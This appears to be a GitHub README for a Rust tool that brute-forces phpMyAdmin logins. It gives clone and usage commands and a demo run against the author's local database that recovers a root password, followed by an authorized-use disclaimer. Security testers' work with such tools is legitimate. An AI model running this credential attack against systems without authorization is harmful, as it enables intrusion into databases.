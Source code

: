 ﻿# phpMyAdmin Bruteforce

## Rust installation 

1. On windows and linux:

```
https://www.rust-lang.org/tools/install
```

2. Once Rust is installed

```
git clone https://github.com/lemercierT/phpmyadmin_bruteforce.git
cd phpmyadmin_bruteforce/pma_bruteforcer/target/debug/
```

3. Example usage
```
[Usage]
.\pma_login_bruteforcer.exe --url http://xxxx/phpmyadmin
                            --pma_username xxxx
                            --wordlist Your/wordlist/path
                            --threads 0-125 (recommended)
``` 

4. For the test I used it against my local database.

For the test I changed my local database password to "IamASecureKey123@!" at the 4959 place of the passlist.txt wordlist.

In less than 30s we obtained :
```
$ ./pma_login_bruteforcer.exe --url http://127.0.0.1/phpmyadmin --pma_username root --wordlist ../../passlist.txt --threads 100
[+] Found creds root:IamASecureKey123@!
```

## Disclaimer
The phpmyadmin_bruteforce tool is intended solely for educational purposes and authorized security testing. The use of this software to attempt unauthorized access to any systems, networks, or data without the explicit consent of the system owner is illegal and may result in severe civil and/or criminal penalties.

The author of this tool, including contributors and any affiliated parties, assumes no responsibility for any misuse or damages caused by the use of this tool. By using this tool, you agree to only use it in compliance with all applicable local, national, and international laws.

Always ensure that you have explicit permission from the owner before testing any system's security.

Use responsibly.


